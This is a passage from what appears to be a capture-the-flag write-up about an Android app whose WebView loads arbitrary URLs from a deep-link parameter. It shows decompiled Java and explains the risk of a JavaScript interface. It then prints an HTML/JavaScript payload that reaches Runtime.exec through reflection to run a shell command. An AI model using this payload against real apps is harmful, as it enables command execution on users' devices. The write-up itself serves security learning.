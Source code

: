 ```java
        webView.getSettings().setAppCacheEnabled(true);  
        webView.getSettings().setAllowFileAccess(true);  
        Intent intent = getIntent();  
        if (intent == null) {  
            webView.loadUrl("https://google.com");  
        }  
        Uri data = intent.getData();  
        if (data != null) {  
            String queryParameter = data.getQueryParameter("web");  
            Log.d("TAG", "onCreate: " + queryParameter);  
            if (queryParameter == null) {  
                z = false;  
            }  
            if (z & URLUtil.isValidUrl(queryParameter)) {  
                webView.loadUrl(queryParameter);  
                return;  
            } else if (!queryParameter.contains("html")) {  
                return;  
            } else {  
                webView.loadUrl(queryParameter);  
                return;  
            }  
        }  
        webView.loadUrl("https://google.com");  
    }  
}
```

This is basically the meat of the challenge. The `onCreate` method creates a `webView` object, adds a `JavascriptInterface` to it, and then sets a bunch of options for the `webview`. If we had a remote instance that we needed to attack then it would probably be interesting to see if we could use the `setAllowFileAccess` option into path traversal, however since we only have the instance running locally we won't bother with that.

The method then checks if the intent contains any data, and if it does, and that data contains a `queryParameter` with the value "web" it will load that page via the `webView`. 

## The webView object and why it can totally ruin your day

The reason that the `webView` object has Javascript disabled by default is that it can very quickly lead to `RCE` if the user visits a malicious site via the `webView`. 

Let's say that the application has created a `webView` object, assigned a `JavascriptInterface` to it, and it then visits a site with the following content:

```html
<!-- javascriptBridge is the name of the Android exposed object -->
<script>
function execute(cmd){
  return javascriptBridge.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec(cmd);
}
execute(['/system/bin/sh','-c','echo \"mwr\" > /mnt/sdcard/mwr.txt']);
</script>
```
